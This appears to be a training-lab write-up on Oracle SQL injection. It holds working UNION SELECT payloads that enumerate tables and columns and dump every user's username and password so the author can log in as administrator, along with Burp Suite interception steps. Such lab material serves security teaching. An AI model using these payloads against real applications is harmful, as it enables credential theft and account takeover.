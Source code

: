 ![lab title](image.png)

Lab: SQL injection attack, listing the database contents on Oracle

Solution: 
    
    1. Use Burp Suite to intercept and modify the request that sets the product category filter.

    2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:
    '+UNION+SELECT+'abc','def'+FROM+dual--

    3. Use the following payload to retrieve the list of tables in the database:
    '+UNION+SELECT+table_name,NULL+FROM+all_tables--
    Find the name of the table containing user credentials.

    4. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
    Find the names of the columns containing usernames and passwords.

    5. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
    Find the password for the administrator user, and use it to log in.

Step to solve: [Before solving the lab use foxyproxy extension and add Burp Suite proxy]

    1. Open Burp Suite and access the LAB.
    2. Connect the proxy and turn on intercept.
    3. Now select a catergory and reload the page then send the request to the repeater and turn off intercept.
    4. We have to retrieve tables, and to do that use this query  [Use cheat sheet to get all the payloads]
    
        'union+select+table_name,+null+from+all_tables+--
        send it and copy the url. 
        and find a user type like this "USERS_IADGQO"
    5. Now to find columns of that table use this query 
        'union+select+column_name,+null+from+all_tab_columns+where+table_name='USERS_IADGQO'+--
        send it and copy the url. 
    6. Using that user and password column we will log in as an administrator by using this query
        'union+select+USERNAME_BGYBYO,+PASSWORD_JFBHXE+from+USERS_IADGQO+--
        send it!
        then copy the url and paste it in a new tab, you will get administrator username and password. Log in with that information and it's done!!

![Solved](image-1.png)

